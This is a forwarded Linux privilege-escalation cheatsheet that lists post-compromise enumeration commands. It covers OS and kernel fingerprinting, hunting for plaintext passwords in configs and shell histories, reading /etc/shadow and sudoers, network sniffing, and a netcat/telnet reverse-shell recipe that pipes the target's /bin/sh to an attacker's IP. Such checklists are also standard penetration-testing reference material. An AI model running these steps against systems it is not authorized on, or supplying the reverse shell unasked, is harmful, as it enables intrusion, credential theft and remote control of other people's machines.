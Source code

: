 # 𝙏𝙝𝙚 𝙇𝙞𝙣𝙪𝙭 𝙋𝙧𝙞𝙫𝙞𝙡𝙚𝙜𝙚 𝙀𝙨𝙘𝙖𝙡𝙖𝙩𝙞𝙤𝙣 𝘾𝙝𝙚𝙖𝙩𝙨𝙝𝙚𝙚𝙩
𝙏𝙝𝙚 𝙇𝙞𝙣𝙪𝙭 𝙋𝙧𝙞𝙫𝙞𝙡𝙚𝙜𝙚 𝙀𝙨𝙘𝙖𝙡𝙖𝙩𝙞𝙤𝙣 𝘾𝙝𝙚𝙖𝙩𝙨𝙝𝙚𝙚𝙩

[Forwarded from TechnicalGrey]
𝙏𝙝𝙚 𝙇𝙞𝙣𝙪𝙭 𝙋𝙧𝙞𝙫𝙞𝙡𝙚𝙜𝙚 𝙀𝙨𝙘𝙖𝙡𝙖𝙩𝙞𝙤𝙣 𝘾𝙝𝙚𝙖𝙩𝙨𝙝𝙚𝙚𝙩

Operating System
What's the distribution type? What version?

cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release


What's the kernel version? Is it 64-bit?

cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-

What can be learnt from the environmental variables?

cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set

Is there a printer?

lpstat -a

Applications & Services

What services are running? Which service has which user privilege?

ps aux
ps -ef
top
cat /etc/services

Which service(s) are been running by root? Of these services, which are vulnerable

ps aux | grep root
ps -ef | grep root

What applications are installed? What version are they? Are they currently running?

ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/

Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?

cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/

What jobs are scheduled?

crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root

Any plain text usernames and/or passwords?

grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla

Communications & Networking
What NIC(s) does the system have? Is it connected to another network?

/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network

What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?

cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname

What other users & hosts are communicating with the system?

lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w

Whats cached? IP and/or MAC addresses

arp -e
route
/sbin/route -nee

Is packet sniffing possible? What can be seen? Listen to live traffic

tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]

Have you got a shell? Can you interact with the system?

nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [attackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!

Confidential Information & Users
Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?

id
who
w
last
cat /etc/passwd | cut -d: -f1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l

What sensitive files can be found?

cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/

Anything "interesting" in the home directorie(s)? If it's possible to access

ls -ahlR /root/
ls -ahlR /home/

Are there any passwords in; scripts, databases, configuration files or log files? Default paths and locations for passwords

cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg

What has the user being doing? Is there any password in plain text? What have they been edting?

cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history

What user information can be found?

cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root

